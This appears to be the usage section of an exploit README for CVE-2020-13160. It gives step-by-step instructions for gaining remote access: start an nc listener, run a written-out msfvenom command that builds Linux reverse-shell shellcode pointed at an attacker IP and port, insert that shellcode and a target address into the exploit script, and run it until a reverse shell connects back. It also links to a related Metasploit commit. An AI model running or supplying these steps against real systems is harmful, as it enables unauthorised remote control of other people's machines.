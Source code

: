 ## Usage:

Python:

Step 1: use nc to listen local port（any one）

Step 2: use msfvenom to generate shellocode,eg:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.174.131 LPORT=6666 -b "\x00\x25\x26" -f python -v shellcode`

Step 3:Replease the shellcode and Target IP Address to you test

Step 4: run the exp,python CVE-2020-13160

Step 5: After a few time later a reverse shell will reback


MSF:
you can see more detail from https://github.com/rapid7/metasploit-framework/commit/08c1402be9bb350d02e00896d5367fd85708e390
